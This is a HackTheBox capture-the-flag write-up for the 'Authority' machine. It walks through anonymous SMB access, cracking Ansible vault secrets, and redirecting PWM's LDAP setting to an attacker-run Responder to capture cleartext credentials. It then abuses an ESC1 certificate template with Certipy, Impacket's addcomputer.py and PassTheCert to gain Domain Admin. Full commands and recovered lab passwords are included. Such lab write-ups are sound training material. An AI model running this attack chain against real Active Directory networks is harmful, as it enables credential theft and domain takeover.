+++
title = 'HackTheBox Authority Write-Up'
date = 2023-12-09T14:40:33+03:00
draft = false
+++



Authority is a medium HackTheBox machine that tests your ability to research technologies you may not have come across before and utilise documentation effectively to accomplish your goals. It also involves exploiting Active Directory Certificate Services for domain privilege escalation.
## Enumeration

We'll begin with an Nmap scan to find out which ports are open and then perform a more detailed scan in order to obtain more information about them.

```shell
nmap -Pn -p- --min-rate 1000 -v 10.10.11.222 
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
5985/tcp  open  wsman
8443/tcp  open  https-alt
9389/tcp  open  adws
47001/tcp open  winrm

```

Based on the open ports alone, we can already tell that we're dealing with Active Directory.

```shell

nmap -Pn -sCV -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,8443,9389 -v 10.10.11.222

```



We're going to add the domain to our `/etc/hosts` file as usual.

What's more, our detailed scan reveals that there's a Certificate Authority configured, which means we also have Active Directory Certificate Services running. We can't do a lot with that information without having any credentials to work with, so we'll table that for later.

We have SMB running as expected for an Active Directory environment and two websites running on ports 80 and 8443.

We'll start by enumerating SMB as that can present us with low-hanging fruit if anonymous login happens to be enabled.

```shell

smbclient -L \\\\10.10.11.222\\

smbclient \\\\10.10.11.222\\Development -U anonymous

smbclient \\\\10.10.11.222\\"Department Shares" -U anonymous

```



When listing the available shares with `smbclient`, we notice two non-default shares with could be of interest to us. If you try to connect to `Department Shares`, you will see that directory listing is denied.

The Development share looks especially interesting as it could contain sensitive information, so let's explore that avenue.

```shell

smbclient \\\\10.10.11.222\\Development -U anonymous

```



If we hadn't noticed the Certificate Authority in our scans, the ADCS folder here would have been another clue.

We can also tell that Ansible has been utilised at some point for automation. This could mean that we might be able to recover or gain access to credentials that were utilised at some point during the automatic configuration.

Let's download everything so we can explore the files more easily on our machine.



Exploring the files we acquired, we come across a file containing Tomcat users. We'll note these credentials down in case we have use for them later.



I had not come across PWM before, so I researched what it is and found the project's [GitHub](https://github.com/pwm-project/pwm) and from there the documentation page. PWM is a web-based configuration manager with over 500 configurable settings mainly tested and intended to work with Tomcat, which could explain the credentials we found.

There are a lot of `.yml` files to explore, which are files written in [YAML](https://en.wikipedia.org/wiki/YAML) and used in playbooks - step-by-step configuration files used with Ansible to manage and automate configuration and application deployment.
### Ansible vault

The most interesting file for us is found under the `PWN/defaults` folder and contains what looks like encrypted login details.



If something is encrypted, there must a way to decrypt it, which we can find by sifting through [Ansible documentation](https://docs.ansible.com/ansible/latest/cli/ansible-vault.html#ansible-vault-decrypt). 



Examining the `decrypt` command, we find out that it requires a "vault secret" which we currently do not have.



Digging around, I found two ways to proceed. We can use `ansible2john` just as we would with any other `2john` tool. We can also use this [online tool](https://www.onlinehashcrack.com/tools-ansible-vault-hash-extractor.php) which serves the exact same function. For that purpose, we'd have to copy the blobs that start with `$ANSIBLE_VAULT` to separate files and convert them with our tool of choice one by one.

This leaves us with three separate hashes that we can then save in one file and proceed to crack with John.



It turns out that all three result in the same password. Now we've obtained the vault secret we need in order to decrypt the vault. We can go back to the three files with the vault blobs and decrypt them in order.

If you've never used the command before, you'll be prompted to install the required package first.

```shell
ansible-vault decrypt vault.blob1 --output decrypted.blob1 
Vault password: 
Decryption successful
```



The first blob gives us `svc_pwm` which seems to be a username. Blobs 2 and 3 result in what appears to be credentials, which we can correlate back with the `main.yml` file as being the `pwm_admin_password` and `ldap_admin_password`. We'll put everything down in our notes.

```
pwm_admin_login: svc_pwm

pwm_admin_password: pWm_@dm!N_!23

ldap_admin_password: DevT3st@123
```

We can also find this  in the file under the `ADCS/defaults` folder.



The email and passphrase may be relevant later so we're going to note them down.

As we'll soon discover, not all the information we've collected is going to be useful to us. Nevertheless, we need to be thorough in our enumeration.
### Web services

After we've exhausted everything we could obtain from the initial SMB anonymous access, we're going to move on to the websites we know are running. The website on port 80 only gives us the default Microsoft IIS ( Internet Information Services) page and trying to find directories or vhosts with `Gobuster` gives us no results. 

We can move on to the website running on port 8443. We are greeted with this page when first accessing the website.



The message below the login portal indicates that PWM has not been fully configured and is not secure. We can try to login with the user `svc_pwm` and the `pwm_admin_password` we obtained when decrypting the Ansible vault, but we get an error message.



None of the other credentials we have collected work either.

If we try to access the Configuration Manager, we can see some details about previous authentications and we are asked to provide a password.



This time, entering the `pwm_admin_password` lets us access the service. 



From the information available to us, we can see that there's another user - `svc_ldap`, and that the service is attempting and failing to connect to LDAPS on port 636.

Furthermore, we have the option to download the current configuration file and import a file of our own. This could prove very useful.


## User flag

Let's download and examine the current configuration file. The first thing that piques our interest is a password hash at the very beginning of the file.



We can identify the hash as `bcrypt`, hashcat mode 3200, but even when running Hashcat on our host machine, it will take upwards of 10 hours to go through `rockyou`, so we'll continue examining the file.

Further down, we'll find the configuration for the LDAPS server that the service is attempting to access.



This is perfect. It means that we can edit the file and configure it to reach out to our own machine and potentially capture a hash or cleartext credentials with Responder.

We can either replace the value or add another line to it with our own IP. We must keep in mind that Responder cannot run an LDAPS server when making the edit, so our line would look like this:

```xml
<value>ldap://10.10.16.3:389</value>
```

We can now start Responder on our attacking machine and hope the service will reach out to us.

```shell
responder -I tun0 -dwv 
```

If you experience an error with Responder (`Error starting TCP server on port 389, check permissions or other servers running.`), you can use the following command to find what process is running on that port and then use its PID to kill it.

```shell
sudo ss --tcp --udp --listen --numeric --process | grep 389
```

With Responder running, we can now go back to import the configuration, which will restart the application.


As soon as that's completed, we will receive cleartext credentials in Responder for the `svc_ldap` user.


### Alternative

Sometimes, there is more than one way to pwn a machine. We can accomplish the exact same thing by accessing the Configuration Editor instead and proceeding to add our own machine under the Connection menu.



Once we've made the addition we just need to click on "Test LDAP Profile" and we'll obtain the cleartext credentials in Responder once more.



Having obtained valid credentials, we can now login with `evil-winrm`, as we found port 5985 to be open in our initial scans, and we can finally obtain the user flag.


## Privilege Escalation — ADCS

When we examine directories on the machine, we get yet another hint pointing towards ADCS.



There's a singular certificate in the `Certs` directory, but there's not much we can do with it.

What we can do is proceed to enumerate the certificate templates available. Enumerating and exploiting ADCS has never been easier with a tool like [Certipy](https://github.com/ly4k/Certipy).

First we're going to utilise the tool with the `find` command and the credentials we've obtained to enumerate templates.

```shell
certipy find -u svc_ldap -p '<password>' -dc-ip 10.10.11.222
```



Using this command, we will obtain the output in three formats - a txt file, a JSON file and a zip file intended for Bloodhound.

We can add the `-text` and `-vulnerable` flags to the command, which will provide us with just a txt file containing only vulnerable templates.

The tool very helpfully provides us with the exact vulnerability, in this case ESC1, which we can then look up in the tool documentation on GitHub to learn how it can be abused, but I've also highlighted the things to look out for if we were examining templates manually.



Before we can proceed, however, we need to access to a Domain Computer account which we don't have. However, if Active Directory has been configured with default settings, we can add such an account ourselves.

To find out, we can check the MachineAccountQuota domain-level attribute. By default it is set to 10, allowing standard domain users to create machine (aka computer) accounts.

We can check this attribute with the [following PowerShell command](https://www.jorgebernhardt.com/how-to-change-attribute-ms-ds-machineaccountquota/):

```powershell

Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DS-MachineAccountQuota

```



Perfect, the default settings have not been changed. Now we can utilise `addcomputer.py` from the [Impacket Suite](https://tools.thehacker.recipes/impacket/examples/addcomputer.py) to add create a new computer account with a password of our choice.

We'll need to specify the DC IP, computer name and our chosen password.

```shell

addcomputer.py -dc-ip 10.10.11.222 -computer-pass 'Whatever13' -computer-name new_computer 'authority.htb/svc_ldap:lDaP_1n_th3_cle4r!'

addcomputer.py -dc-ip 10.10.11.222 -computer-pass 'Whatever13' -computer-name new_computer 'authority.htb/svc_ldap:<password>'

```



Now that we have a computer account, we can use it to request a template from the Certificate Authority. We need to specify credentials, the CA itself, the domain, the user principal name for the Administrator account so we can then authenticate as that account, and the DNS server, which we discovered previously when we saw what the PWM service was attempting to reach out to.

```shell
certipy req -u 'new_computer$' -p 'Whatever13' -ca AUTHORITY-CA -target authority.htb -template CorpVPN -upn administrator@authority.htb -dns authority.authority.htb -dc-ip 10.10.11.222
```


### Troubleshooting

Now, there are two errors you can get here when running this command.

```
[-] Got error: Unknown DCE RPC fault status code: 00000721

[-] Got error: The NETBIOS connection with the remote host timed out.
```

I don't believe this is intended, as I never encountered these errors the first time I did the box. Recommended solutions are changing the order of entries in your hosts file, or adding the domain and DC IP to your `/etc/resolv.conf` or through the network manager after which you have to restart the service with `sudo systemctl restart NetworkManager`. I am sure which one of these solves the problem, a combination of those plus restarting the machine and running the Certipy command finally took care of the issue for me.
### PassTheCert

Having obtained the administrator certificate, the next step would be to utilise it for authentication, thereby receiving the NTLM hash of the administrator with the following command:

```shell
certipy auth -pfx administrator_authority.pfx -dc-ip 10.10.11.222
```

This fails in our case with the following error which is indeed intended:

```
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
```



Googling the specific error leads us to [this issue on GitHub](https://github.com/ly4k/Certipy/issues/64) and consequently to a tool called [PassTheCert](https://github.com/AlmondOffSec/PassTheCert/). We learn that the error means the KDC is not set up for Kerberos authentication and the Domain Controller does not support PKINIT. The PassTheCert tool allows us to bypass that by authentication via LDAP(S).

We can use the version of the tool written in Python. All we need to do is follow the [instructions on GitHub to the letter](https://github.com/AlmondOffSec/PassTheCert/tree/main/Python). We can run the following commands to extract the certificate and private key from the pfx file.

```shell

certipy cert -pfx administrator_authority.pfx -nokey -out user.crt
[*] Writing certificate to 'user.crt'

certipy cert -pfx administrator_authority.pfx -nocert -out user.key
[*] Writing private key to 'user.key'

```

Afterwards we can utilise those with the PassTheCert Python script to authenticate to the DC via LDAP.

```shell

python3 passthecert.py -action ldap-shell -crt user.crt -key user.key -domain authority.htb -dc-ip 10.10.11.222

```

This will provide us with a fair number of commands we can run, most notably we can create a new user and add a user to a group.


## Root flag

The simplest way to proceed is to add the `svc_ldap` user to the local Administrators group or to Domain Admins.

```
add_user_to_group svc_ldap Administrators
add_user_to_group svc_ldap "Domain Admins"
```



The other route is to create our own user and then add that user to a group, which is the better route to take so we do not make any changes to existing users.

```
add_user arth0s
Attempting to create user in: %s CN=Users,DC=authority,DC=htb
Adding new user with username: arth0s and password: L|PcV[Ua)=%+M(W result: OK
```

The user we add will be assigned a random complex password, we're free to change that and add the user to one of the aforementioned groups.

```
change_password arth0s Whatever13
Got User DN: CN=arth0s,CN=Users,DC=authority,DC=htb
Attempting to set new password of: Whatever13
Password changed successfully!
```

Voila! We are now able to log in with our newly created user and obtain the root flag.



Thank you for reading and thank you to the creators of this box [mrb3n](https://app.hackthebox.com/users/2984) and [Sentinal920](https://app.hackthebox.com/users/206770).

If you're interested in diving deeper into abusing ADCS for domain privilege escalation, read the documentation for Certipy, the the Certified Pre-Owned white paper by [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin), and you're welcome to check out [my GitHub repo](https://github.com/arth0sz/Practice-AD-CS-Domain-Escalation) dedicated to that as well. 


